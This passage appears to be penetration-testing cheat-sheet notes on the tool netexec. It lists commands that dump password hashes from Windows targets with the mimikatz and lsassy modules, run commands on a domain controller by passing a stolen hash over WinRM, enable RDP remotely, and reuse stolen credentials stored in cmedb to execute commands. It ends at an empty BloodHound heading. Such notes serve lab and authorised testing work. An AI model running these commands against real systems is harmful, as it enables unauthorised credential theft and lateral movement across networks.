#### 20 SwisArmy netexec Modules
```bash - kali
netexec smb -L
```

Dump hashes with mimikatz module:
```bash - kali
sudo netexec smb $TARGET -u $USER -p $PASSWORD -M mimikatz
```

```bash - kali
netexec winrm $DOMAIN_CONTROLLER_IP -u $USER -H $HASH -X 'whomai /all'
```

Dump hashes with lsassy module:
```bash - kali
sudo netexec smb $TARGET -u $USER -p $PASSWORD  -M lsassy
```

```bash - kali
netexec winrm $DOMAIN_CONTROLLER_IP -u $USER -H $HASH -X 'whomai /all'
```

Enable RDP:
```bash - kali
sudo netexec smb $TARGET -u $USER -p $PASSWORD -M rdp -o ACTION=enable
```

#### 21 SwisArmy netexec CMEDB
```bash - kali
sudo cmedb
```

```bash - kali
help
```

```bash - kali
proto smb
```

```bash - kali
help
```

```bash - kali
creds
```

All dumped creds will be displayed here.  Notice that each row has a Cred ID, which can be used in the netexec commands:
```bash - kali
sudo netexec smb $TARGET -id 4
```

```bash - kali
sudo netexec smb $TARGET -id 4 -X 'whoami'
```

#### 22 SwisArmy BloodHound Installation

